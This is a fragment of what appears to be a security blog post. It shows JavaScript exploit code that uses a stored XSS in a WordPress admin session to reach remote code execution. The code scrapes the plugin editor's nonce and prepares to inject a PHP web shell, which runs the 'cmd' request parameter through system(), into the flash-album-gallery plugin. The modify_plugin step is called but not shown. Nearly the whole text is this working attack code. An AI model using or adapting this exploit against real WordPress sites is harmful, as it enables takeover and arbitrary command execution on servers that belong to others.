 ### The exploit code:  

    :::js
    /* 
     * Copyright: Nikolai Tschacher.
     * Site: incolumitas.com
     * Easy as pie.
     * What: Use this code when you found a stored XSS in a wordpress plugin to gain RCE.
     * How: A wordpress admin needs to run this code in his browser with a valid session id.
     * Idea: Mofify the flash-album-gallery plugin via wordpress admin panel.
     * 
     * Note: This is actually nothing new. It's just one of many ways to gain RCE
     *       if you have a stored XSS in a wordpress session.
     */

    // Without php tags
    // HTML meta chars are in character entity references format.
    var EXPLOIT_CODE = "\nif (isset($_GET[&#039;cmd&#039;])&amp;&amp; !empty($_GET[&#039;cmd&#039;])){ echo &#039;<pre>&#039;;system($_GET[&#039;cmd&#039;]);echo &#039;</pre>&#039;; }";

    // TARGET SETTINGS. Set stuff here.
    var TARGET_WP_PATH = "http://localhost/wordpress";
    var PLUGIN_EDITOR_URL = TARGET_WP_PATH + "/wp-admin/plugin-editor.php";
    var PLUGIN_EDIT_URL = PLUGIN_EDITOR_URL + "?file=flash-album-gallery/flag.php";


    function getXMLHttpRequestObject() {
        var ref = null;
        if (window.XMLHttpRequest) { // For recent browsers.
            ref = new XMLHttpRequest();
        } else if (window.ActiveXObject) { // Older IE 6,7,8
            ref = new ActiveXObject("MSXML2.XMLHTTP.3.0");
        }
        return ref;
    }

    /* Extract the nonce */
    function exploit() {
        var req = null;

        req = getXMLHttpRequestObject();
        req.onreadystatechange = function() {
            if (req.readyState == 4 && req.status == 200) {
                var res = /name="_wpnonce"\svalue=\"[a-z0-9]{10}\"/.exec(req.responseText);
                if (res.length == 1) {
                    nonce =  /[a-z0-9]{10}/.exec(res[0]);
                } else { // The sites not available. Maybe the plugin is not installed?!
                    nonce = null;

                }
                modify_plugin(req.responseText, nonce);
            }
        }
        req.open("GET", PLUGIN_EDIT_URL, true);
        req.send();
    }
